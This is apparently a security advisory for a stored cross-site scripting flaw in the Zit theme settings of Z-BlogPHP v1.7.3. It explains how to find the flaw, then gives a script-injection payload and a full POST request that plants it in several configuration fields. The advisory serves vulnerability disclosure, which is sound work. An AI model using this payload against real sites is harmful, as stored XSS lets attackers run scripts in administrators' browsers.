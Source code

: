 # Summary
A cross-site scripting (XSS) vulnerability in the Backend `Theme Management module` of Z-BlogPHP v1.7.3 allows attackers to execute arbitrary web scripts or HTML via a crafted payload.

There is a stored XSS vulnerability in the **Zit** theme configuration of zblogphp v1.7.3.

# Details
Select and enable this theme:
![image](https://github.com/user-attachments/assets/beb61e13-fb8f-484b-a0f1-8045df1d33d5)

Audit the configuration code of this theme
`zb_users\theme\Zit\main.php`

![image](https://github.com/user-attachments/assets/450b3569-07b8-4c85-8307-51f0450d7b0f)

The HTML tag elements in main.php are not filtered and have XSS vulnerabilities.

So we construct the corresponding payload according to the HTML format:
```html
";><ScRiPt>alert(7)</ScRiPt>
```

Next, we use burpsuite to intercept the HTTP request package saved by the normal configuration options, and then modify the value of the parameter to the payload we constructed:
![image](https://github.com/user-attachments/assets/fc8a8b44-e476-4b96-a1eb-4718f810e24f)
![image](https://github.com/user-attachments/assets/a098fd16-fff7-42b1-86b7-d9f15f5f9eda)

Then we visit the configuration interface `main.php` again, and we can find that the stored XSS is triggered:
![image](https://github.com/user-attachments/assets/f34be924-5acf-46a5-8df6-6fd3c5191ea9)

At this point, the payload we constructed is spliced ​​on the website as follows:
![image](https://github.com/user-attachments/assets/e3c1d84e-9cbe-420a-b4ee-26bbe66bb08b)


# PoC
```html
";><ScRiPt>alert(7)</ScRiPt>
```

```
POST /zb_users/theme/zit/main.php HTTP/1.1
xxx

csrfToken=716554d3c6a82692767bb6598496e49c&Logo=";><ScRiPt>alert(7)</ScRiPt>&Backdrop=&Cover=http%3A%2F%2Fzblog%3A81%2Fzb_users%2Ftheme%2FZit%2Fstyle%2Fbg.jpg&Hue=";><ScRiPt>alert(7)</ScRiPt>&MenuAnimate=1&DefaultAdmin=0&StaticName=1&ListTags=0&ListAlbum=0&HideIntro=0&MobileSide=";><ScRiPt>alert(7)</ScRiPt>&SideMods=&Motto=Nice+to+meet+you%2C+too%21&MottoUrl=&MottoSize=&CmtIds=&GbookID=2&RandLog=0&HideRand=0&Description=&Keywords=&RelatedTitle=%E5%B0%91%E9%95%BF%E5%92%B8%E9%9B%86&CommentTitle=%E7%BE%A4%E8%B4%A4%E6%AF%95%E8%87%B3
```
![image](https://github.com/user-attachments/assets/f34be924-5acf-46a5-8df6-6fd3c5191ea9)
![image](https://github.com/user-attachments/assets/e3c1d84e-9cbe-420a-b4ee-26bbe66bb08b)
